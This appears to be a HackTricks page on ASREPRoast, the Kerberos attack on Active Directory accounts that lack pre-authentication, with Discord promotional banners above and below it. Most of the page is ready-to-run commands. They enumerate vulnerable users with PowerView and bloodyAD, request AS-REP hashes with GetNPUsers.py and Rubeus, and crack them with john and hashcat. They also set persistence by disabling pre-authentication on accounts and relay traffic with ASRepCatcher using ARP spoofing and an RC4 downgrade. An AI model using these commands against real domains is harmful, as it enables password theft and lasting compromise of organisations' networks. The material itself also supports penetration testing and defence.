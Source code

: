 # ASREPRoast

{{#include ../../banners/hacktricks-training.md}}

<figure><img src="../../images/image (3).png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

## ASREPRoast

ASREPRoast is a security attack that exploits users who lack the **Kerberos pre-authentication required attribute**. Essentially, this vulnerability allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.

The main requirements for this attack are:

- **Lack of Kerberos pre-authentication**: Target users must not have this security feature enabled.
- **Connection to the Domain Controller (DC)**: Attackers need access to the DC to send requests and receive encrypted messages.
- **Optional domain account**: Having a domain account allows attackers to more efficiently identify vulnerable users through LDAP queries. Without such an account, attackers must guess usernames.

#### Enumerating vulnerable users (need domain credentials)

```bash:Using Windows
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
```

```bash:Using Linux
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName
```

#### Request AS_REP message

```bash:Using Linux
#Try all the usernames in usernames.txt
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
#Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```

```bash:Using Windows
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)
```

> [!WARNING]
> AS-REP Roasting with Rubeus will generate a 4768 with an encryption type of 0x17 and preauth type of 0.

### Cracking

```bash
john --wordlist=passwords_kerb.txt hashes.asreproast
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt
```

### Persistence

Force **preauth** not required for a user where you have **GenericAll** permissions (or permissions to write properties):

```bash:Using Windows
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```

```bash:Using Linux
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 add uac -f DONT_REQ_PREAUTH
```

## ASREProast without credentials

An attacker can use a man-in-the-middle position to capture AS-REP packets as they traverse the network without relying on Kerberos pre-authentication being disabled. It therefore works for all users on the VLAN.\
[ASRepCatcher](https://github.com/Yaxxine7/ASRepCatcher) allows us to do so. Moreover, the tool forces client workstations to use RC4 by altering the Kerberos negotiation.

```bash
# Actively acting as a proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disabling ARP spoofing, the mitm position must be obtained differently
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passive listening of AS-REP packets, no packet alteration
ASRepCatcher listen
```

## References

- [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)

---

<figure><img src="../../images/image (3).png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

{{#include ../../banners/hacktricks-training.md}}


